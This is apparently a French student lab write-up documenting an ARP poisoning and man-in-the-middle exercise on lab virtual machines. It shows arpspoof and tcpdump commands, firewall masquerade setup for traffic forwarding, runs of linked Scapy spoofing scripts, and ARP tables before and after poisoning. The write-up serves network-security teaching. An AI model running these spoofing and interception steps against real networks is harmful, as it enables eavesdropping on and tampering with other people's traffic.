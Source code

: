 # 🌞 Empoisonnez la table ARP de node2.tp1.my  
Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```
Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```

Ouvrir un autre terminal dans node1.tp1.my  
```bash
sudo arpspoof -t 10.1.1.101 10.1.1.253
```

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

# 🌞 Ecrire un script Scapy qui fait le travail de arpspoof  
Le [script python](./arp_spoof.py)  
La [capture Wireshark](./arp_spoof_2.pcap)  

# 🌞 Mettre en place un MITM ARP  
```bash
sudo firewall-cmd --add-masquerade --permanent  
sudo firewall-cmd --reload  
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:05   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253               ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```  

Ouvrir un terminal dans node1.tp1.my  
Le [script python](./arp_mitm_1.py)   
🦈 Capture ARP Spoof --> [arp_mitm_1.pcap](./arp_mitm_1.pcap)  
  
```bash
sudo python arp_mitm_1.py
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether  00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```